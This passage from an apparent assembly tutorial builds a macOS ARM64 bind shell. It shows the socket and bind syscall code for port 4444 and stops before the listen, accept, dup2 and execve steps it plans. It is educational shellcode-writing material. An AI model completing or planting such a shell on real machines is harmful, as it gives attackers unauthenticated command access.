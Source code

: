 ### practical example

What's the plan? We'll write a simple bind shell in raw assembly for macOS ARM64. It'll:
- create a socket    
- bind to `127.0.0.1:4444`    
- accept incoming connections    
- need to call `dup2` socket to `STDIN/STDOUT/STDERR`    
- need to call `execve /bin/zsh`    

Let's get started.      

We begin by calling 

```cpp
int socket(int domain, int type, int protocol);
```

in our case:    

```cpp
socket(PF_INET, SOCK_STREAM, 0)
```

On macOS, BSD syscalls are used, and socket is syscall number `97`:     

```nasm
mov    x0, #2      ; AF_INET
mov    x1, #1      ; SOCK_STREAM
mov    x2, xzr     ; protocol = 0
mov    x16, #97    ; syscall: socket (97)
svc    #0xffff     ; call kernel
mov    x19, x0     ; save sockfd
```

Nothing fancy. Just raw syscall to open a TCP socket.     

At the next step we need to binding logic:    

```cpp
int bind(int socket, const struct sockaddr_in *address, socklen_t address_len);
```

Now let's build the `sockaddr_in` structure directly on the stack:    

```nasm
mov    x2, #16                 ; sizeof(sockaddr_in)
mov    x4, #0x0200             ; sin_len=0x00, sin_family=AF_INET=0x02
movk   x4, #0x5c11, lsl#16     ; sin_port = 0x115c (4444) in network byte order
stp    x4, xzr, [sp, #-16]!    ; push to stack (zero padding)
mov    x1, sp                  ; x1 = pointer to sockaddr_in
mov    x16, #104               ; syscall: bind
svc    #0xffff
```

We're binding to `127.0.0.1:4444`. You might notice we don't explicitly set `sin_addr`. macOS allows binding to `INADDR_ANY` if we skip it, or we could add it with extra `movk` like in other examples - this PoC keeps it compact.     

So, then we need listening and accepting connections logic. So, start listening:    

